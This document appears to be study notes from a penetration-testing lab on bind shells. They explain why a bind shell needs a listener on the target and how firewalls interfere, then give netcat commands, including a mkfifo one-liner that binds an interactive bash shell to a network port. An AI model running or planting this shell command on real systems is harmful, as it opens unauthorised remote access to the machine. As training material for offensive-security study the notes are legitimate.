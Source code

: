 
Target has a listener started, attacker connects

Problems
- Need to have a listener on target
- No listener - how to get one?
- Firewall rules and NAT on edge, so we would need to be on internal network already
- OS firewalls block incoming connections that aren't associated with trusted network-based applications

nc server-client

Target (Server)
```shell-session
nc -lvnp 7777
```

Host (Client)
```shell-session
nc -nv 10.129.41.200 7777
```


### Establishing a Basic Bind Shell with Netcat

Binding a Bash shell to the TCP session
```shell-session
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

Host
```shell-session
nc -nv 10.129.41.200 7777
```

